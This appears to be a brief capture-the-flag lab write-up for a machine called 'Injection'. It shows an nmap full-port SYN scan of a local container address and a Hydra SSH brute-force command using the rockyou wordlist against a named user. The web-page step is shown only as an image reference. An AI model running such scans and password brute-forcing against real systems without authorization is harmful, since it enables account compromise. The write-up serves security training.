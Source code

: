 # Injection

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure
We access the web page hosted on the Apache server and find this:

![Descripción de Injection](Imagenes/Injection_1.png)




## Intrusion

Finally, everything points to the need for a brute force attack on the SSH service with the username "borazuwarah" and a password dictionary.

For this, I'm going to use the Hydra tool

```ruby
hydra -l borazuwarah -P rockyou.txt -t 10 -w 1 ssh://172.0.17.2
```

![Descripción de Borazu](Imagenes/Borazu_4.png)

Hydra obtains the password for that given user, so we can now connect to the SSH service.
